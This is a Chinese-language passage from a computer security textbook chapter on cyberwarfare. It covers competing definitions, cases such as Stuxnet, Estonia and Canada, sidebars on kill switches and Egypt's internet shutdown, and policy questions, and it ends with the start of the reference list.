Anup Ghosh [GHO11] 持有更细致的观点：他区分了网络犯罪、网络间谍活动和网络战。他指出，当基于网络的非法行为以金钱获利为目的时，即构成网络犯罪。网络间谍活动则不同。“[当今的]网络入侵并未导致网络瘫痪、电网被毁、银行系统崩溃、化工厂爆炸、飞机坠落或政府常规职能被破坏。相反，它们在进行侦察、收集数据，并通过一系列网络中继渗出数据。”

***

**网络战的规模大于网络恶作剧、网络犯罪、网络间谍活动、网络恐怖主义或网络攻击。“战争”一词通常专指国家之间的主动冲突。**

***

剩下的通常被称为特种行动。正如 Ghosh 所言：“我们偶尔会看到爆发性事件，机器被破坏、网络瘫痪、肇事者被当场抓获，我们甚至可能反击。这是战争吗？这当然看起来像。……肇事者可能是受过良好训练的网络战士，拥有特定的军事/情报目标——相当于当今各军种中的特种作战部队。这是网络世界中的特种战争。” 即 Ghosh 认为网络战是在网络领域发生的特种行动。Sommer 和 Brown [SOM10] 提出了类似的定义：“真正的网络战是具有常规战争特征、但完全在网络空间进行的事件。” 两者都暗示网络战必须由国家行为体实施，而非任意团体；这一区别将网络战与网络恐怖主义分开。

Ghosh 与 Sommer 和 Brown 分歧在于对网络空间的限定。Sommer 和 Brown 怀疑真正的网络战会发生，但 Ghosh 看法不同：“它可能升级为低强度冲突。最终它很可能在传统战争中发挥作用，通过情报收集和削弱防御（通过摧毁指挥控制系统）来准备战场，并与动能攻击同步。网络战真实存在吗？是的。”

### 网络战的可能案例

许多行动被称为网络战行为。本节列举几个符合大多数定义的案例：它们被归因于国家行为体，且发生在网络空间。

#### 爱沙尼亚

2007 年 4 月起，爱沙尼亚多个政府部门网站在与俄罗斯发生政治冲突后，立即遭受多起大规模分布式拒绝服务攻击而瘫痪。然而，爱沙尼亚国防部长承认，没有确凿证据表明攻击源自俄罗斯或属于国家资助。北约和 Eneken Tikk 均拒绝将爱沙尼亚遭受的攻击视为网络战 [GRO10]，但其他人持不同看法。

#### 伊朗

正如我们在第 6 章中所见，毒性极强的 Stuxnet 蠕虫攻击了用于许多生产控制系统的特定型号计算机。媒体在 2010 年报道，伊朗纳坦兹的铀浓缩设施遭到了该蠕虫的攻击，导致许多设备发生故障。由于 Stuxnet 记录了其感染的每台计算机的位置和类型信息，赛门铁克的研究人员确定该攻击分三个阶段发生，并且这 12,000 次感染可追溯至仅五个感染源：与工业加工相关的伊朗境内域名。首次成功感染（可能通过互联网载体）发生于 2009 年 6 月，至 2009 年底，近 1,000 台离心机已被迫下线。第二次感染发生于 2010 年 4 月，涉及通过插入受感染的 USB 驱动器利用 Windows 漏洞。关于该攻击的更多细节，请参阅 Albright、Brannan 和 Wairond [ALB11] 以及 Markoff [MAR11] 的文献。

#### 以色列和叙利亚

2007 年，以色列战机发射的导弹未显示在叙利亚雷达屏幕上，因为软件已将实时图像替换为虚假的、无害的图像。但归因仍属推测；以下是对该攻击的描述示例：“据记者推断，以色列干扰了叙利亚雷达及其他防御系统，赢得了足够时间在未被发现的情况下发动袭击。袭击期间，网络战术似乎涉及远程空对地电子攻击和对叙利亚指挥控制系统的网络渗透。” [MIL10]

但网络不仅仅是被瘫痪了。“[分析人员] 认为，网络渗透既涉及远程空对地电子攻击，也涉及通过计算机间链路的渗透。” Fulghum 等人 [FUL07b] 援引一位分析师的话，描述了通过网络攻击对叙利亚指挥控制能力实施的欺骗。随后 Fulghum [FUL07c] 描述了一种极可能用于此次攻击的技术：“该技术允许用户入侵通信网络，查看敌方传感器所见内容，甚至接管系统管理员权限，从而操纵传感器位置，使进近飞机无法被发现，他们说。该过程涉及高精度定位敌方发射源，然后向其导入数据流，数据流可包含虚假目标和误导性信息、[以及] 允许包括控制在内的多种活动的算法。”

简而言之，以色列人推测不仅拦截或阻断了信号，还向防空网络注入了自己的信号。设想一块防空屏幕显示天空空无一物，而敌机正在空中疾驰。

#### 加拿大

2011 年 1 月，加拿大政府披露，其多个国家部门遭受了网络攻击：财政委员会、财政部和国防研究与发展部。Ian Austen [AUS11] 报道称，这些部门长达两个月几乎或完全无法访问互联网。“入侵被追溯到位于中国的计算机服务器，尽管无法知晓攻击实施者是否真身在中國，抑或仅通过中国跳板路由攻击以掩盖踪迹。”（http://www.cbc.ca/news/world/story/2011/02/17/f-cyberattack-pradeep-khosla.html）

推测攻击目标是加拿大预算的机密性。在加拿大，联邦预算由总理提呈；呈交议会后，原样通过——无辩论、无修改。因此，拟议预算严格保密，据信攻击者试图窃取其细节。

攻击者似乎使用了两种攻击手段，均涉及社会工程学。首先，利用“高管鱼叉式网络钓鱼”，他们控制了受影响部门高级官员的计算机。接着，他们冒充官员向部门 IT 支持系统发送消息，以获取关键系统的密码。

其次，攻击者发送据称来自官员的电子邮件，附带 PDF 文件。收件人打开这些文件时，隐藏程序被启动，将机密信息和文件发回给攻击者。然而，一位加拿大网络安全研究人员“怀疑加拿大政府调查人员能否证明没有信息从系统中被窃取。” [AUS11]

#### 俄罗斯

据《纽约时报》（2014 年 10 月 14 日）报道，俄罗斯黑客利用 Windows 操作系统中的缺陷，渗透了各国政府、北约和乌克兰的计算机。这些攻击似乎被用于对政府官员实施间谍活动。特别受关注的是与俄罗斯和乌克兰外交对峙相关的活动。间谍活动可能最早始于 2009 年，并至少持续到 2014 年 9 月北约峰会，该峰会以俄罗斯对乌克兰的敌意为核心议题。

#### 这些是网络战的例子吗？

这些情况无疑都属于网络危害，且很可能属于网络战，尽管不确定是否由国家行为体而非个人团体所为；我们可能永远无法知晓这些攻击的幕后赞助者。这种区别至关重要：如果攻击由国家赞助，受害国有理由对肇事国采取外交、经济、技术和军事报复。然而，如果罪魁祸首是独立个人，这种升级则毫无根据。

在所有情况下，制止或减轻危害均为首要任务。基于这些原因，技术专家和决策者开始考虑所谓的“杀伤开关”，即通过发送信号远程停止或销毁计算机设备的手段，详见侧边栏 13-5。凭借阅读本书其余部分所积累的背景知识，你应立即意识到，这种对抗措施是危险的，因为敌方可利用同一功能瘫痪关键计算机，尤其是当这种干扰伴随同步的非网络攻击时。

***

### 侧边栏 13-5 杀伤开关——有益还是有害？

世界各国军方越来越担心失去对其日益复杂的电子系统内部可能存在事物的控制。“当今几乎每个军事系统都包含一些商用硬件。可以相当肯定地说，美国国家安全局不会在中国制造其加密芯片。但无论资金多么充足，任何实体都无法承担为每台设备中的每个芯片制造自己安全版本的费用。” [ADE08]

军方试图控制其系统中恶意软件不确定性的一种方法是内置杀伤开关，借此远程禁用某些系统或软件。例如，在以色列袭击叙利亚疑似核设施后，有大量推测认为，叙利亚雷达系统所用芯片中内置了电子“后门”。“通过向这些芯片发送预编程代码，一位未知对手破坏了芯片功能，暂时瘫痪了雷达。” [ADE08]

这种“熔断开关”的吸引力显而易见：如果出现问题，系统或其某部分可以被远程禁用。构建这种开关有几种方法，包括向芯片添加额外逻辑，或向大型复杂系统添加额外软件功能。后者可能特别难以发现：

> “假设那 1000 个晶体管被编程为响应特定的 512 位数字序列。要通过软件测试发现该代码，你可能需要遍历 512 位序列的每一种可能的数字组合……纳什维尔范德比尔特大学电气工程研究副教授蒂姆·霍尔曼 \[称\] ‘宇宙里的时间根本不够用。’” \[ADE08\] 但是，正如我们在 第 3 章 中所述，依赖保密性是一种有风险的对策，尤其是对于像这样强大的技术而言。

---

### 关键问题

许多国家，包括美国、英国和法国，正在建立“网络司令部”：专注于防御和发动网络战的新军事实体。一些专家，如 McGraw 和 Arce，认为网络领域与其他军事领域不同，因为一个国家无法像军队控制陆地、海洋或空域那样，以相同方式接管或“拥有”网络空间。但是，正如我们所见，如果网络战要成为解决国际问题的合理途径，必须解决许多关键问题。

我们现在提出一些关于这些问题的重大问题供你分析和辩论。这些问题没有唯一的正确答案，甚至在答案上也没有达成多数共识。我们邀请你思考这些问题，形成自己的答案，并也许与朋友、家人、同事或同学进行辩论。

#### 何时算作战争？

什么构成战争行为？根据一些战争史学家的说法，该行动必须由进攻国身着制服的军事人员实施，且结果必须被受攻击国承认是军事行动。按此标准，对爱沙尼亚的攻击不算战争行为。这可能是由有组织犯罪分子或一群愤怒的公民煽动的，且未被任何国家政府承认是军事行动。那么上一节中的其他例子呢：按此标准，哪些可能是真正的战争行为？该标准对网络空间中的行为是否合理？

#### 发生的可能性有多大？

Sommer 和 Brown [SOM11] 声称永远不会有真正的网络战。他们给出了几个理由，包括预测网络攻击真实效果的困难：“一方面 \[攻击\] 可能不如预期强大，但也可能因系统的互联性而产生更广泛的后果，导致对攻击者及其盟友造成意外损害。更重要的是，没有战略理由让任何侵略者将自己限制在仅使用一类武器。”

同时，他们指出了网络武器的扩散：“网络武器被单独使用、组合使用，也与常规‘动能’武器同时混合使用作为倍增器。可以肯定地预测，网络武器的使用很快将变得无处不在。”

网络武器的作用类似于常规武器：它们摧毁或扰乱人口的生存能力，削弱经济，摧毁士气。然而，炸弹摧毁桥梁或工厂可能导致漫长的恢复时间，而电子设备是可替代且易于更换的。网络冲突可能关闭网络，但网络连接和路由的设计具有弹性，因此恢复可以相当快。恢复的其他方面见 侧边栏 13-6。

---

### 侧边栏 13-6 网络响应能持续多久？

媒体对 Stuxnet 攻击给予了极大关注，并引发了大量关于如何最好地防御此类攻击的讨论。但较少关注的是伊朗如何从攻击中恢复。2011 年初，David Albright、Paul Brannan 和 Christina Wairond [ALB11] 发布了他们对伊朗恢复工作的分析。“虽然它在 2010 年延缓了纳坦兹工厂的伊朗离心机计划，并减缓了其扩张，但并未阻止它，甚至未延缓低浓缩铀的持续积累，”他们指出。事实上，国际原子能机构 (IAEA) 通过安装用于监控的摄像头，在视频上观察了这一过程。数百台离心机被拆解报废，但几乎立即被新机器取代。国际原子能机构发现“伊朗科学家在受到禁止伊朗购买核设备的国际制裁约束的情况下，仍在进行疯狂的——且显然成功的——遏制损害和更换损坏部件的努力。”事实上，袭击发生后，伊朗在 2010 年纳坦兹的生产率“保持稳定甚至略有提升” [WAR11]。

同样，正如 侧边栏 13-7 所述，当穆巴拉克关闭埃及互联网五天时，民众通过手机进行通信。特别是通过手机相机拍摄照片和视频，然后利用移动电话技术传输它们，他们让更广阔的世界了解本国发生的事情 [PRE11]。

这些事件表明，不仅要询问网络战是否有效，还要询问其有效期有多长。计算机安全从业者之间的许多讨论更多地关注攻击的可能性（是否存在可被利用的漏洞？），而不是关注攻击是否会导致持续的损害或瘫痪。

---

#### 对网络战的适当反应是什么？

爱沙尼亚的 Ekelan Tikk 和美国国家安全局前 CIO 兼 CTO Prescott Winter 都建议政府和公司应为协同攻击做好准备。然而，他们指出，为网络战做准备很困难，因为鲜有先例。“政府知道如何谈判条约、进行外交以避免常规战争，但没人真正知道国家间的对抗会如何升级为网络战，”Winter 说。“国家在传统战争前会经历一整套外交舞步，外交往往能避免冲突……这在网络领域还真不存在。” [GRO10]

Winter 强调，国家尚无网络战交战规则，包括如何利用私营部门网络重路由流量和关闭攻击。Tikk 敦促政府制定网络战政策，利用国家间合作。这种合作是联合网络安全演习的成果之一 [GRO10]。

一些政府正在考虑加强对网络基础设施上活动的监控，以监视不受欢迎的行为。但公民自由组织敦促在实施监控时谨慎行事，我们将在 第 9 章 中讨论这一点。

#### 其他政策、伦理和法律问题

如果网络战要成为可行的战略，必须解决无数政策、伦理和法律问题。我们在此探讨其中几个。

##### “熔断开关”合理吗？

全球已出现多场运动，旨在网络基础设施中实施各种熔断开关。例如，在商业领域，澳大利亚为澳大利亚 ISP 实施了一项自愿行为准则。称为 iCode，包含四项关键规定：

- 受感染计算机的通知和管理系统
- 面向最终用户的标准化信息资源
- 面向 ISP 的最新威胁信息来源
- 在“极端威胁”情况下，受影响方可向澳大利亚计算机应急响应小组（CERT Australia）报告的一种方式，这有助于形成对攻击状态的国家高层视角，并协调私营和公共部门的响应。

极端威胁响应中包括 ISP 关闭部分基础设施的能力：一种“杀掉开关”，尽管这种方法将由人类网络工程师完成，而非电子信号。


同样，在美国，一项名为“保护网络空间作为国家资产（S3480）”的法案于 2010 年在国会提出。该法案被戏称为“杀掉开关法案”，其中包含一项条款，将授予“总统在网络攻击威胁造成每年超过 250 亿美元损失、导致 2,500 多人丧生或迫使大规模疏散时采取行动的权力。总统将有能力精准定位打击对象，而不对美国利益造成经济损害，期限为 30 至 120 天，需经国会批准。”尽管 S3480 未能通过委员会审议，但该概念可能会被重新提出。该法案基于并将延伸 1934 年建立联邦通信委员会的法规。现有立法授权总统在涉及“公共危险或灾难”的紧急时刻“使用或控制”通信渠道。拟议的修改并未明确创建“杀掉开关”，而仅要求总统在接管基础设施前通知国会。其他统治者已经采取了此类全面行动，详见侧边栏 13-7。

***

### 侧边栏 13-7 埃及如何拉下开关

在 2011 年埃及民众反抗穆巴拉克统治的浪潮中，一些观察者忽略了一场技术层面的反制：“政府凶猛的反击，一项在全球互联时代被许多人认为不可能完成的黑暗壮举。在 1 月 28 日午夜刚过的几分钟内，一个技术先进、网络密布、拥有 2,000 多万网民的国家，基本上被切断了与全球互联网的连接。” [GLA11] 尽管断网仅持续了五天，最终未能帮助穆巴拉克留任，但它为安全工程提供了教训。

穆巴拉克利用的最大漏洞是政府对网络基础设施的所有权。格兰兹和马科夫指出，这种漏洞普遍存在。“类似的安排在威权国家比普遍认知的更为常见。例如在叙利亚，叙利亚电信机构主导基础设施，绝大部分国际流量通过一条通往塞浦路斯的单一管道流动。约旦、卡塔尔、阿曼、沙特阿拉伯及其他中东国家拥有同类占主导地位的国家控制运营商……巴林和伊朗的活动人士称，他们在抗议活动中看到了严重的互联网减速的有力证据。对政府关网潜力的担忧在北非国家尤为突出，这些国家大多依赖极少数光纤线路承载大部分国际互联网流量。”

但政府所有权并非唯一问题。其他问题包括通往外部世界的连接数量极少，且每一条连接也都由政府控制，以及仅依赖来自埃及境外的内容。结果形成了一种拓扑结构，使政府能够迅速且几乎完全地将埃及切断。

***

### 现有国家公约是否适用于网络战？

国家和国际合作依赖于国际公约。但现有的国际公约适用于网络战吗？各国在安全方法上存在基本差异。例如，《欧盟隐私指令》赋予欧洲公民对其个人信息的所有权，但在美国，法律上不保证此类所有权。如何克服这些国家差异，以便在网络战中盟友之间共享信息？

在 2014 年 9 月的会议上，北约成员国同意，针对其任何成员的网络攻击都可能触发全体成员的响应。这一行动重申了《北约建立条约》第 5 条，该条规定“针对缔约国一方或数方的武力攻击，应视为针对全体缔约国的攻击。”

### 发布防御信息是否有助于攻击者？

即使启用了信息共享，如何在不协助攻击者的情况下共享信息？我们已经看到攻击者通过观察系统在反复攻击下的变化性质来学习的例子。如何在不助长攻击者的情况下共享信息？

### 网络战只是军事问题吗？

麦格劳和阿尔塞 [MCG10] 认为，网络安全是“一个错综复杂的经济、文化、外交和社会问题的网络。”此外，影响其他类型战争的地理边界在网络空间中不存在，网络基础设施的供应商是一个生动的、跨国的文化和视角的混合体。国家战争学说和政治辩论不适合无边界的互联网，因为在互联网上无法强制执行单一国家或联盟的规则。鉴于这些困难，我们如何平衡军事视角与这些其他视角？事实上，由于大部分网络基础设施掌握在私人手中，军队究竟扮演什么角色？

### 13.5 结论

在本章中，我们探讨了四个备受关注的话题，它们很可能成为计算机安全领域研究和开发的主题。然而，讨论需要超越计算机安全学生和专业人士，甚至超越技术专家。此处的问题既是技术性的，也是个人的。我们如何决定一项技术是否足够安全以供广泛使用？由谁来做这些决定？这些问题在技术层面没有简单的答案；答案只能来自政治领域。

因此，本章提出的情况实际上是对读者、学生、专业人士、科学家和工程师的挑战。你们需要努力传达这些问题的技术方面，使同行群体之外的人也能理解。同时，你们需要激发公众参与这些讨论。正如你们从阅读本书中所理解的，安全失效时我们都会受害。只有当更广泛的公众理解并支持安全时，安全才能成功。

### 参考文献

本参考文献中使用了以下缩写。

ACM   计算机协会

Comm   Communications（通讯/学报）

Conf   会议

Corp   公司

Dept   部门

IEEE   电气和电子工程师学会

Jl   期刊

Proc   论文集

Symp   研讨会

Trans   Transactions（汇刊/汇报）

Univ   大学

[ABU10] Abu-Libdeh, H., et al. “RACS: A Case for Cloud Storage Diversity.” *ACM Symp on Cloud Computing 2010*, 2010.

[ABC06] ABC (American Broadcasting Corporation). “This Tax Season Beware of Downloading Music of Movies.” *televised news program,* 15 Feb 2006. [www.abcactionnews.com/stories/2006/02/060215p2p.shtml](http://www.abcactionnews.com/stories/2006/02/060215p2p.shtml).

[ACQ05] Acquisti, A., and Varian, H. “Conditioning prices on purchase history,” *Marketing Science*, v24 n3, p367–381, Summer 2005.

[ADE08] Adee, S. “The Hunt for the Kill Switch.” *IEEE Spectrum,* May 2008.

[AGR00] Agrawal, R., and Srikant, R. “Privacy-Preserving Data Mining.” *Proc ACM SIGMOD Conf on Management of Data,* May 2000.

[AIR00] U.S. Air Force. “Operational Risk Management.” *Air Force Policy Directive,* 90-9, 1 Apr 2000.

### 参考文献

[AIR08] AirDefense, Inc. “Bluetooth Networks: Risks and Defenses.” *未发表的白皮书*，2008。 [`www.airdefense.net/whitepapers/`](http://www.airdefense.net/whitepapers/)

[ALB09] Albrecht, M., et al. “Plaintext Recovery Attacks Against SSH.” *2009 IEEE 安全与隐私研讨会论文集*，2009，第 16–26 页。

[ALB11] Albright, D., et al. “Stuxnet Malware and Natanz: Update of ISIS December 22, 2010 Report.” *科学与国际安全研究所报告*，2011 年 2 月 15 日。

[ALE72] Aleph Null (C.A. Lang). “Computer Recreations: Darwin.” *软件：实践与经验*，第 2 卷，1972 年 1–3 月，第 93–96 页。

[ALE96] Aleph One (Elias Levy). “Smashing the Stack for Fun and Profit.” *Phrack*，第 7 卷 第 49 期，1996 年 11 月。

[ALF13] AlFardan, N. “On the Security of RC4 in TLS.” *USENIX 安全研讨会论文集*，2013。

[ALL99] Allen, J., et al. “State of the Practice of Intrusion Detection Technologies.” *软件工程研究所技术报告*，CMU/SEI-99-TR-028，1999。

[AME83] Ames, S., et al. “Security Kernel Design and Implementation: An Introduction.” *IEEE Computer*，第 16 卷 第 7 期，1983 年 7 月，第 14–23 页。

[AND01] Anderson, R. “Why Information Security Is Hard: An Economic Perspective,” *ACSAC 论文集*，2000， [`www.acsac.org/2001/papers/110.pdf`](http://www.acsac.org/2001/papers/110.pdf)

[AND02] Anderson, R. “Security in Open versus Closed Systems—The Dance of Boltzmann, Coase and Moore.” 开源软件会议论文集：经济、法律与政策，法国图卢兹，2002 年 6 月 21 日。

[AND03] Anderson, H. “Introduction to Nessus.” *Security Focus*，Nessus 漏洞扫描器，2003 年 10 月 23 日。 [`nessus.org/`](http://nessus.org/)

[AND04] Anderson, E., et al. “Subversion as a Threat in Information Warfare.” *未发表的海军研究生院白皮书*，2004。

[AND04a] Anderson, N. “802.11 Association Hijacking.” *未发表的网络笔记*，2004。 [`users.moscow.com/nathana/hijack/`](http://users.moscow.com/nathana/hijack/)

[AND05] Anderson, R. “Open and Closed Systems Are Equivalent (That Is, in an Ideal World),” in *Perspective on Free and Open Source Software,* MIT Press, 2005.

[AND06] Andrews, M., and Whittaker, J. *How to Break Web Software*. Addison-Wesley, 2006.

[AND06a] Anderson, R., and Moore. T. “The Economics of Information Security.” *Science,* 第 314 卷 第 5799 期，2006 年 10 月，第 610–613 页。

[AND08] Anderson, R., and Moore, T. “Information Security Economics and Beyond.” *2008 信息安全峰会论文集*。 [`www.cl.cam.ac.uk/~rja14/Papers/econ_czech.pdf`](http://www.cl.cam.ac.uk/~rja14/Papers/econ_czech.pdf)

[AND72] Anderson, J. “Computer Security Technology Planning Study.” *美国空军电子系统部*，TR-73-51，1972 年 10 月。 [`csrc.nist.gov/publications/history/ande72.pdf`](http://csrc.nist.gov/publications/history/ande72.pdf)

[AND73] Anderson, J. “Information Security in a Multi-User Computer Environment,” in *Advances in Computers,* 第 12 卷，1973，第 1–35 页。

[AND98] Anderson, R. “The DeCODE Proposal for an Icelandic Health Database.” *未发表的报告*，1998 年 10 月 20 日。

[ANT04] Antón, A., et al. “Inside JetBlue’s Privacy Policy Violations.” *IEEE Security & Privacy,* 第 2 卷 第 6 期，2004 年 11 月，第 12–18 页。

[ANT07] Antón, A., et al. “HIPAA’s Effect on Web Site Privacy Policies.” *IEEE Security & Privacy,* 第 5 卷 第 1 期，2007 年 1 月，第 45–52 页。

[ANT09] Antón, A., et al. “How Internet Users’ Privacy Concerns Have Evolved Since 2002.” *北卡罗来纳州立大学计算机科学技术报告*，TR-2009-16，2009 年 8 月。

[ARA05] Arazi, B., et al. “Revisiting Public-Key Cryptography for Wireless Sensor Networks.” *Computer,* 第 38 卷 第 11 期，2005 年 11 月，第 103–105 页。

[ARB02] Arbaugh, W., et al. “Your 802.11 Wireless Network Has No Clothes.” *Wireless Communications,* 第 9 卷 第 6 期，2002 年 11 月，第 44–51 页。

[ARB10] Arbor Networks. “Worldwide Infrastructure Security Report.” 第 VI 版，2010。

[ARE05] Arends, S., et al. “DNS Security Introduction and Requirements.” *互联网工程任务组报告 RFC*，第 4033 号，2005。

[ARG10] Argonne National Laboratory. “Defeating Existing Tamper-Indicating Seals.” *未发表的白皮书*，2010 年 9 月。

[ARO05] Arora, A., and Telang, R. “Economics of Software Vulnerability Disclosure,” *IEEE Security & Privacy*，第 3 卷 第 1 期，第 20–25 页，2005 年 1 月。

[AUC03] Aucsmith, D. “Monocultures Are Hard to Find in Practice.” *IEEE Security & Privacy,* 第 1 卷 第 6 期，2003 年 11 月，第 15–16 页。

[AUD08] Auddy, A., and Sahu, S. “Tempest: Magnitude of Threat and Mitigation Techniques.” *第 10 届电磁干扰与兼容性国际会议论文集*，2008。

[AUS11] Austen, I. “Canada Hit by Cyberattack.” *New York Times,* 2011 年 2 月 17 日。

[AVC10] AV-Comparatives. “On-Demand Detection of Malicious Software.” *未发表的技术报告*，第 25 号，2010 年 3 月 17 日。 [`www.av-comparatives.org/images/stories/test/ondret/avc_report25.pdf`](http://www.av-comparatives.org/images/stories/test/ondret/avc_report25.pdf)

[BAB09] Babic, A., et al. “Building Robust Authentication Systems with Activity-Based Personal Questions.” *SafeConfig 09 论文集*，2009。

[BAC09] Backes, M., et al. “Tempest in a Teapot: Compromising Reflections Revisited.” *IEEE 安全与隐私研讨会论文集*，2009。

[BAC13] Bachner, J. “Predictive Policing: Preventing Crime with Data and Analytics.” IBM 政府商业中心报告，约翰霍普金斯大学，2013。

[BAD12] Badger, L., et al. “Cloud Computing Synopsis and Recommendations.” *NIST 特别出版物 800-146*，2012。

[BAL07] Ballani, H., et al. “A Study of Prefix Hijacking and Interception in the Internet.” *SIGCOMM 2007 论文集*，2007 年 8 月。

[BAN05] Bank, R. “Cisco Tries to Squelch Claim About a Flaw in Its Internet Routers.” *Wall Street Journal,* 2005 年 7 月 28 日。


### 参考文献

[BAN08] Bangeman, E. “New Ruling May ‘Grease the Wheels’ of RIAA’s Litigation Machine.” *Ars Technica*, 2008 年 3 月 31 日。

[BAR06] Barbaro, M., and Zeller, T. “A Face Is Exposed for AOL Searcher No. 4417749.” *New York Times*, 2006 年 8 月 9 日。

[BAR14] Baraniuk, C. “Urine analysis hoax prompts health data privacy debate,” *Wired UK*, 2014 年 5 月 2 日， [`www.wired.co.uk/news/archive/2014-05/02/urine-analysis-hoax`](http://www.wired.co.uk/news/archive/2014-05/02/urine-analysis-hoax)

[BAR98] Baron, J. “Trust: Beliefs and Morality.” *Economics, Values and Organisation*, 剑桥大学出版社，1998。

[BEC08] Beck, M., and Tews, E. “Practical Attacks against WEP and WPA.” *PacSec 2008 论文集*，2008。

[BEC10] Becherer, A. “Hadoop Security Design Just Add Kerberos. Really?” *iSEC 白皮书*，在 BlackHat 2010 上发表。 [`media.blackhat.com/bh-us-10/whitepapers/Becherer/BlackHat-USA-2010-Becherer-Andrew-Hadoop-Security-wp.pdf`](https://media.blackhat.com/bh-us-10/whitepapers/Becherer/BlackHat-USA-2010-Becherer-Andrew-Hadoop-Security-wp.pdf)

[BEL73] Bell, D., and La Padula, L. “Secure Computer Systems: Mathematical Foundations and Model.” *MITRE 报告*，MTR 2547 第 2 卷，1973 年 11 月。

[BEL76] Bell, D., and La Padula, L. “Secure Computer Systems: Unified Exposition and Multics Interpretation.” *美国空军电子系统部技术报告*，ESD-TR-75-306，1976。 [`csrc.nist.gov/publications/history/bell76.pdf`](http://csrc.nist.gov/publications/history/bell76.pdf)

[BEL89] Bellovin, S. “Security Problems in the TCP/IP Protocol Suite.” *Computer Comm Review*, 第 19 卷 第 2 期，1989 年 4 月，第 32–48 页。

[BEN04] Bennet, J., et al. “Hack-a-Vote: Security Issues with Electronic Voting Systems.” *IEEE Security & Privacy*, 第 2 卷 第 1 期，2004 年 1 月，第 32–37 页。

[BEN92a] Bennett, C. “Experimental Quantum Cryptography.” *Jl of Cryptology*, 第 5 卷 第 1 期，1992，第 3–28 页。

[BEN92b] Bennett, C., et al. “Quantum Cryptography.” *Scientific American*, 第 267 卷 第 4 期，1992 年 10 月，第 50–57 页。

[BER00] Berard, E. “Abstraction, Encapsulation and Information Hiding.” *未发表的报告*，2000。 [www.itmweb.com/essay550.htm](http://www.itmweb.com/essay550.htm)

[BER01] Berghal, H. “The Code Red Worm.” *Comm of the ACM*, 第 44 卷 第 12 期，2001 年 12 月，第 15–19 页。

[BER03] Berinato, S. “All Systems Down.” *CIO Magazine*, 15 Feb 2003.

[BER13] Bernstein, D., *et al*. “On the Security of RC4 in TLS.” *Proc 22nd Usenix Security Symp*, Aug 2013, p305–320.

[BER14] Bertoni, G., et al. “The Keccak Sponge Function Family.” Web page, <http://keccak.noekeon.org/>

[BEV05] Beverly, R., and Bauer, S. “The Spoofer Project: Inferring the Extent of Source Address Filtering on the Internet.” *Proc Usenix Workshop on Steps to Reducing Unwanted Traffic on the Internet*, 2005.

[BIB77] Biba, K. “Integrity Considerations for Secure Computer Systems.” *Mitre Technical Report*, MTR-3153, 1977.

[BIC10] Bickford, J., et al. “Rootkits on Smart Phones: Attacks, Implications and Opportunities.” *Proc 11th Int’l Workshop on Mobile Computing Systems and Applications*, Feb 2010. <http://www.cs.rutgers.edu/~iftode/hotmobile10.pdf>

[BID09] Biddle, R., et al. “Graphical Passwords: Learning from the First Generation.” *Carleton Univ Technical Report*, 09-09, 2009.

[BIH90] Biham, E., and Shamir, A. “Differential Cryptanalysis of DES-like Cryptosystems.” *Proc Crypto Conf*, 1990, p2–21.

[BIH91] Biham, E., and Shamir, A. “Differential Cryptanalysis of FEAL and N-Hash.” *Eurocrypt Conf*, 1991, p1–16.

[BIH93] Biham, E., and Shamir, A. “Differential Cryptanalysis of the Full 16-Round DES.” *Proc Crypto 93*, 1993, p487–496.

[BIR10a] Birnbaum, M., et al. “Criminal Investigation Opened in Grade-Changing Scandal at Churchill High.” *Washington Post*, 4 Mar 2010.

[BIR10b] Biryukov, A., et al. “Key Recovery Attacks of Practical Complexity on AES-256 Variants with up to 10 Rounds.” *Advances in Cryptology—Proc. Eurocrypt 2010*, p299–319.

[BIR11] Birk, D. “Technical Issues of Forensic Investigations Cloud Computing Environments.” *Proceedings of the 6th International Workshop on Systematic Approaches to Digital Forensic Engineering* (SADFE), 2011.

[BIS07] Bishop, M. “Overview of Red Team Reports,” Office of the Secretary of State of California, 1500 11th St, Sacramento, CA 95814 (July 2007), <http://nob.cs.ucdavis.edu/~bishop/notes/2007-CaSoS/2007-overview.pdf>

[BIS14] BIS (U.K. Department for Business Innovation and Skills). “Information Security Breaches and Skills.” *Unpublished white paper*. 2014. <https://www.gov.uk/government/uploads/system/uploads/attachment_data/file/307296/bis-14-767-information-security-breaches-survey-2014-technical-report-revision1.pdf>

[BLA01] Blair, B. “Nukes: A Lesson from Russia.” *Washington Post*, 11 Jul 2001, pA19.

[BLA03] Blaze, M. “Rights Amplification in Master-Keyed Mechanical Locks.” *IEEE Security & Privacy*, v1 n2, Mar 2003, p24–32.

[BLA08] Black, D., and McGrew, D. “Using Authenticated Encryption Algorithms with the Encrypted Payload of the Internet Key Exchange version 2 (IKEv2) Protocol.” *Internet Engineering Task Force Report RFC 5282*, Aug 2008.

[BLA96] Blaze, M., et al. “Minimal Key Lengths for Symmetric Ciphers to Provide Adequate Security.” *Unpublished report*, Information Assurance Technical Advisory Center, Jan 1996. <http://www.dtic.mil/cgi-bin/GetTRDoc?Location=U2&doc=GetTRDoc.pdf&AD=ADA389646>

[BLA98] Blaze, M., et al. “Decentralized Trust Management.” *Proc 1998 Symp Security and Privacy*, 1998.

[BLU09] Blumberg, A., and Eckersley, P. “On Locational Privacy and How to Avoid Losing It Forever.” *Electronic Frontier Foundation white paper*, Aug 2009. <http://www.eff.org/files/eff-locational-privacy.pdf>

[BOE92] Boebert, E. “Assurance Evidence.” *Secure Computing Corp Technical Report*, 1 Jun 1992.

[BOG11] Bogdanov, A., et al. “Biclique Cryptanalysis of the Full AES.” *Advances in Cryptology—Proc. AsiaCrypt 2011*, p344–371.

[BOL91] Bollinger, T., and McGowan, C. “A Critical Look at Software Capability Evaluations.” *IEEE Software*, v8 n4, Jul 1991, p25–41.

[BON08] Bond, M. “Comments on GrIDSure Authentication.” *web page*, 28 Mar 2008. <http://www.cl.cam.ac.uk/~mkb23/research/GridsureComments.pdf>

[BON10] Bonneau, J., and Preibusch, S. “The Password Thicket: Technical and Market Failures in Human Authentication on the Web.” *Proc Workshop on Economics of Info Sec*, 2010.

[BON99] Boneh, D. “Twenty Years of Attacks on the RSA Cryptosystem.” *Notices of the AMS*, v46 n2, Feb 1999, p203–213.

[BOR01] Borisov, N., et al. “Intercepting Mobile Communications: The Insecurity of 802.11.” *Proc 7th Intl Conf on Mobile Computing and Networking*, 2001. <http://portal.acm.org/citation.cfm?id=381677.381695>

[BOU05] Boulanger, A. “Open-Source versus Proprietary Software: Is One More Reliable and Secure Than the Other?” *IBM Systems Jl*, v44 n2, 2005, p239.

[BOW14] Bowyer, K., and Doyle, J. “Cosmetic Contact Lenses and Iris Recognition Spoofing.” *Computer*, v47, n5, May 2014, p96–98.

